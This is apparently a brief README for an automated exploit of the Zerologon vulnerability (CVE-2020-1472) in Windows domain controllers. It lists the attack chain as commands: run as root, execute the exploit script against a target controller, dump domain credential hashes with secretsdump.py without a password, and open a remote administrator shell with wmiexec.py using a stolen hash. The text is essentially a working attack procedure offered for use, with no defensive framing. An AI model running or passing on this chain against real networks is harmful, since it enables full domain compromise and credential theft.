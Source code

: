 # zerologon
automated 
run this script as a root user 
sudo su 
After installation is completed then run the python script as following 
python3 cve-2020-1472-exploit.py -n <computername>-t <target ip>
secretsdump.py -no-pass -just-dc <domain>/<computername>\$@<targetip>
wmiexec.py -hashes <hashdump of administrator> <domain>/Administrator@<targetip>

